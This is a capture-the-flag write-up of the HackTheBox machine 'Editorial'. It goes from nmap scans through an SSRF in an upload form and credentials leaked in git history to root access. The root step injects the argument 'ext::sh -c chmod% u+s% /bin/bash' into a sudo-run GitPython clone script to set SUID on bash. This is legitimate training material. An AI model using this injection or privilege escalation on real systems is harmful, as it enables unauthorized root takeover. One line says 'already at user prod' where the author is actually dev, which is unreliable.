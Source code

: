 ```yaml
---
title: "Editorial Writeup - HackTheBox"
date: 2024-10-09
draft: false
Tags:
- HackTheBox
- Linux
- Easy
---
```


| Link: | [https://app.hackthebox.com/machines/Editorial](https://app.hackthebox.com/machines/Editorial) |
| --- | --- |
| Difficulty | Easy |
| Machine | Linux |

---

## Enumeration

I ran nmap scan quickly on the target machine to reveal open ports on the box.

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

I again ran agressive scan on the box on two open ports again using `sudo nmap 10.10.11.20 -T4 -vv -sC -sV -A -O` , following is result of the scan:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I added editorial.htb to my /etc/hosts file using command “`echo '10.10.11.20 editorial.htb' >> /etc/hosts`” and then visited `http://editorial.htb` the site looks like this:

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled.png)

## User Flag

There is `/upload` endpoint where we have upload functionality. We might get File Upload to RCE on this box. I will try to upload a reverse shell script to get a shell.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%201.png)

After bit of testing, the form field has cover url section which is actually vulnerable to SSRF and not file upload vulnerability in this website. 

The following request is vulnerable to SSRF where I will try to 

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%202.png)

Upon testing on internal network, I found that there is port 5000 open on this box.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%203.png)

Visiting the port 5000 response i.e (`static/uploads/rrrrrrrr-eeee-zzzz-yyyyy-iscool`) reveals the api endpoint:

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%204.png)

I visited the api endpoint and tried to open the file downloaded from the request recieved from the rsponse.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%205.png)

Upon visiting the endpoint given as by the request from above image, we get a file downloaded in our system. 

The file contains the username and password for user `dev`. Using SSH to the user and now we get user flag.

## Root Flag

There is a directory `/apps` which contains `.git` in home directory of the user dev.

```
dev@editorial:~$ ls
apps  lol.zip  user.txt
dev@editorial:~$ cd apps
dev@editorial:~/apps$ ls -la
total 24
drwxrwxr-x 6 dev dev 4096 Jun 16 08:17 .
drwxr-x--- 5 dev dev 4096 Jun 16 08:17 ..
drwxrwxr-x 2 dev dev 4096 Jun 16 08:13 app_api
drwxrwxr-x 4 dev dev 4096 Jun 16 08:10 app_editorial
drwxr-xr-x 8 dev dev 4096 Jun 16 08:09 .git
drwxrwxr-x 2 dev dev 4096 Mar  9  2021 GitDump-master
```

I will try to see logs:

```
dev@editorial:~/apps$ git log .
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info

    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
```

Thee commit `b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` shows that there is change in api downgrading from `prod` to `dev`. I will try to show the commit like this:

```
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: R3DACTED_PASSWORD\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: R3DACTEDPASSWORD!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------

```

This has credential for both user `prod` and `dev`. Since we are already at user prod, we will change our user to `prod`.

```
dev@editorial:~/apps$ su prod
Password: 
prod@editorial:/home/dev/apps$ 
```

By using `sudo -l` i can see that this user prod can use `/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *` as root and we wont be asked for password.

Below is the code for the python script `/opt/internal_apps/clone_changes/clone_prod_change.py`

```
prod@editorial:/home/dev/apps$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

This script changes the working directory to `/opt/internal_apps/clone_changes`, initializes a bare Git repository, and clones the repository specified by `url_to_clone` into a subdirectory named `new_changes` with a specific Git configuration option.

Doing few research there is RCE vulnerability for this. If you are interested reading you can read [here](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

I will use this script to make /bin/bash suid binary and then use it to get root shell.

I ran `sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'`

Although I got errors, it successfully made it suid binary. I simply then ran `/bin/bash -p` to get root shell.

```
prod@editorial:~$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
```

There we go. We rooted this box successfully.

## Conclusion

Thanks for following my writeup. Follow my blogs for more. :D
